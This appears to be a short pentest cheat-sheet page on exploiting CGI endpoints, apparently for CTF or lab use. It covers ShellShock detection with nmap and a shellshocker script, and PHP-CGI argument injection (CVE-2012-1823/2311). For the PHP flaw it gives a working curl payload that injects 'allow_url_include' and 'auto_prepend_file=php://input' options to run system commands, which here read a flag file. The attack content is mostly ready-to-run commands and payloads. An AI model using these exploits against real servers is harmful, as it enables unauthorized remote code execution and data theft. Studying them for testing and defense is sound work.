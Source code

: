 # CGI

## ShellShock

{% embed url="https://nozerobit.gitbook.io/hacknotes/common-exploits/shellshock" %}

{% embed url="https://github.com/erinzm/shellshocker" %}

Nmap:

```
nmap 10.10.10.10 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

Shellshocker example:

```
python shellshocker.py http://10.10.10.10/cgi-bin/admin.cgi
```

## Old PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)

{% embed url="https://nozerobit.gitbook.io/hacknotes/common-exploits/php-cgi-exploitation" %}

Basically if cgi is active and php is "old" (<5.3.12 / < 5.4.2) you can execute code.\
In order to exploit this vulnerability, you need to access some PHP files of the web server without sending parameters (especially without sending the character "=").\


Then, in order to test this vulnerability, you could access for example `/index.php?-s` (note the `-s`) and the **source code of the application will appear in the response**.

Then, in order to obtain **RCE** you can send this special query: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` and the **PHP code** to be executed in the **body of the request.**

****\
**Example:**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

****
